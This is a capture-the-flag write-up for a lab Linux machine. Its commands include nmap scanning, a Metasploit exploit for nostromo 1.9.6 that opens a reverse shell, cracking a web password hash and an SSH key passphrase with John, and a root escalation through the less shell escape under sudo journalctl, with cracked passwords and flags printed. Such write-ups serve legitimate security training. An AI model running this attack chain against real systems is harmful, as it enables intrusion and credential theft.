



# Traverxec (Easy · Linux)

**Author:** Ph4n3s
**Date:** 2026-10-25
**IP:** 10.129.80.148
**Difficulty:** Easy / Linux

---

## 1. Enumeration

### 1.1 Ping

```
ping -c 1 10.129.80.148
```

```
64 bytes from 10.129.80.148: icmp_seq=1 ttl=63 time=60.9 ms
```

TTL 63 → Linux system.

### 1.2 Open ports

```
nmap -p- --open -T4 --min-rate 5000 10.129.80.148 -oN ports
```

```
22/tcp open  ssh
80/tcp open  http
```

### 1.3 Technology enumeration

```
nmap -p 80,22 -sVC -T4 --min-rate 5000 10.129.80.148 -oN targeted
```

```
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
```

**nostromo 1.9.6** is a lightweight web server with a public, well-documented RCE (CVE-2019-16278), so we go straight to exploiting it.

---

## 2. Initial exploitation

We use the Metasploit module specific to this version:

```
use exploit/multi/http/nostromo_code_exec
set RHOSTS 10.129.80.148
set LHOST 10.10.16.120
set RPORT 80
run
```

We get a shell as `www-data`, with very limited permissions.

---

## 3. Post-exploitation: from www-data to david

We do not have access to the `/home/david` directory, so we enumerate the nostromo server's own configuration in `/var/nostromo/conf/`:

```
cat nhttpd.conf
```


The `.htpasswd` file (hidden, you have to list with `ls -la`) contains the hash of `david`'s web password:

```
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```



We crack it with John the Ripper:

```bash
echo 'david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/' > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

```
Nowonly4me       (david)
```

`nhttpd.conf` also indicates `homedirs_public → public_www`, meaning each user can have content served at `http://host/~user/`. With the newly obtained password we access david's protected area:

```bash
curl http://10.129.80.148/~david/protected-file-area/ -u david:Nowonly4me
```

Inside there is a file `backup-ssh-identity-files.tgz`, which we download:

```bash
curl http://10.129.80.148/~david/protected-file-area/backup-ssh-identity-files.tgz -u david:Nowonly4me -o backup.tgz
tar -xvzf backup.tgz
```

```
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub
```



The private key is protected with a passphrase:


We extract it into a format John can crack and attack it with the same wordlist:

```bash
ssh2john home/david/.ssh/id_rsa > id_rsa_hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_hash.txt
```

```
hunter          (./home/david/.ssh/id_rsa)
```


With the key now decryptable, we connect over SSH as `david`:

```bash
ssh -i home/david/.ssh/id_rsa david@10.129.80.148
```

```
USER FLAG -> a8bdc84f3fd32e9597417ff7447f7ba5
```

---

## 4. Privilege escalation: from david to root

Once inside, we review the user's personal tools directory:

```
david@traverxec:~$ ls bin/
server-stats.head  server-stats.sh
```

```
cat bin/server-stats.sh
```

The script shows that it runs, among other things:

```
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

We confirm with `sudo -l` that `david` can run exactly that command as root without a password. We also check that the script itself cannot be overwritten (`chattr`/immutable), so we attack the allowed command directly:



```bash
sudo /usr/bin/journalctl -n5 -unostromo.service
```

`journalctl` internally opens a pager (`less`) with root privileges, since it is a child process of `sudo` itself. `less` has a classic shell-escape shortcut:

```
!/bin/sh
```

This gives us a shell as **root**. We navigate to `/root` and read the final flag:

```
ROOT FLAG -> 786d5a52942ffcbc6bda07db118cb418
```

---

## Quick summary

**What the machine was:** a nostromo 1.9.6 server vulnerable to RCE (CVE-2019-16278), whose own configuration leaked credentials that led, in a chain, to an SSH key and finally to a misconfigured binary in sudoers.

**Enumeration:** `nmap` → SSH (22) and nostromo 1.9.6 on HTTP (80), a version with a known public RCE.

**Initial access:** the Metasploit module `nostromo_code_exec` → shell as `www-data`.

**From www-data to david:** nostromo's own configuration (`nhttpd.conf`) reveals where the `.htpasswd` is → cracked with John → the web password grants access to a protected area containing a backup of `david`'s SSH keys → the private key is encrypted, but its passphrase also falls to John (`ssh2john` + `rockyou.txt`) → SSH access as `david`.

**From david to root:** `sudo -l` shows permission to run `journalctl` on the nostromo service without a password → `journalctl` internally invokes `less` as a pager, inheriting root privileges → the `less` escape shortcut (`!/bin/sh`) gives a shell as root.

**Key concept learned:** a privilege chain does not always go through a single serious flaw; here it was three minor links (plaintext credentials inside a backup, a weak dictionary-crackable password, and a sudo-permitted binary that internally invokes a program able to escape to a shell) that, chained together, lead from anonymous access to full root.

---

**Flags:**
- `david/user.txt` → `a8bdc84f3fd32e9597417ff7447f7ba5`
- `root.txt` → `786d5a52942ffcbc6bda07db118cb418`
